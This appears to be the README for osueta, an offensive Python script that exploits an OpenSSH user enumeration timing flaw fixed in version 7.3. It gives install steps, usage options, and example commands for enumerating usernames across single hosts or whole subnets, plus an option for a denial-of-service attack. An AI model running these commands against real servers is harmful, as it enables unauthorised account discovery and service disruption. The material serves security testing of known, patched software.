         ***************************************************************************
        *                  ___                 ___ ___ _  _                       *
        *                 / _ \ _ __  ___ _ _ / __/ __| || |                      *
        *                | (_) | '_ \/ -_) ' \\__ \__ \ __ |                      *
        *                 \___/| .__/\___|_||_|___/___/_||_|                      *
        *                      |_|                                                *
        *   _   _               ___                             _   _             *
        *  | | | |___ ___ _ _  | __|_ _ _  _ _ __  ___ _ _ __ _| |_(_)___ _ _     *
        *  | |_| (_-</ -_) '_| | _|| ' \ || | '  \/ -_) '_/ _` |  _| / _ \ ' \    *
        *   \___//__/\___|_|   |___|_||_\_,_|_|_|_\___|_| \__,_|\__|_\___/_||_|   *
        *                                                                         *
        *          _____ _       _               _  _   _           _             *
        *         |_   _(_)_ __ (_)_ _  __ _    /_\| |_| |_ __ _ __| |__          *
        *           | | | | '  \| | ' \/ _` |  / _ \  _|  _/ _` / _| / /          *
        *           |_| |_|_|_|_|_|_||_\__, | /_/ \_\__|\__\__,_\__|_\_\          *
        *                              |___/                                      *
        ***************************************************************************


What's OSUETA?
==============

        Osueta it's a simple Python2 script to exploit the OpenSSH User Enumeration Timing Attack, 
        present in OpenSSH versions <= 7.2 and >= 5.* . The script has the ability to make variations
        of the username employed in the bruteforce attack, and the possibility to establish
        a DOS condition in the OpenSSH server. 
	
        http://seclists.org/fulldisclosure/2013/Jul/88 
        
    	The bug was corrected in OpenSSH version 7.3:
    	http://www.openssh.com/txt/release-7.3

Authors:
========

        c0r3dump3d | coredump<@>autistici.org
        rofen | rofen<@>gmx.de

	We want to give the thanks to Javier Nieto from www.behindthefirewalls.com for his support and help.

Advice:
=======

	Like others offensive tools, the authors disclaims all responsibility in the use of this script.


Installing:
===========

        # apt-get install python-ipy python-nmap 
        # pip install paramiko
        # git clone https://github.com/c0r3dump3d/osueta.git 


Usage:
======
	usage: osueta.py [-h] [-H HOST] [-k HFILE] [-f FQDN] [-p PORT] [-L UFILE]
                 [-U USER] [-d DELAY] [-v VARI] [-o OUTP] [-l LENGTH]
                 [-c VERS] [--dos DOS] [-t THREADS]

	OpenSSH User Enumeration Time-Based Attack Python script

	optional arguments:
  	-h, --help  show this help message and exit
  	-H HOST     Host Ip or CIDR netblock.
  	-k HFILE    Host list in a file.
  	-f FQDN     FQDN to attack.
  	-p PORT     Host port.
  	-L UFILE    Username list file.
  	-U USER     Only use a single username.
	-d DELAY    Time delay fixed in seconds. If not, delay time is calculated.
  	-v VARI     Make variations of the username (default yes).
  	-o OUTP     Output file with positive results.
	-l LENGTH   Length of the password in characters (x1000) (default 40).
  	-c VERS     Check or not the OpenSSH version (default yes).
  	--dos DOS   Try to make a DOS attack (default no).
  	-t THREADS  Threads for the DOS attack (default 5).


Example:
========

	* A single user enumeration attempt with username variations:

	        ./osueta.py -H 192.168.1.6 -p 22 -U root -d 30 -v yes

	* A single user enumeration attempt with no user variations a dos attack:

	        ./osueta.py -H 192.168.1.6 -p 22 -U root -d 30 -v no --dos yes

	* Scanning a C class network with only one user:
	
		./osueta -H 192.168.1.0/24 -p 22 -U root -v no 

	* Scanning a C class network with usernames from a file, delay time 15 seconds and a password of 50000 characters:

		./osueta -H 192.168.1.0/24 -p 22 -L usernames.txt -v yes -d 15 -l 50 

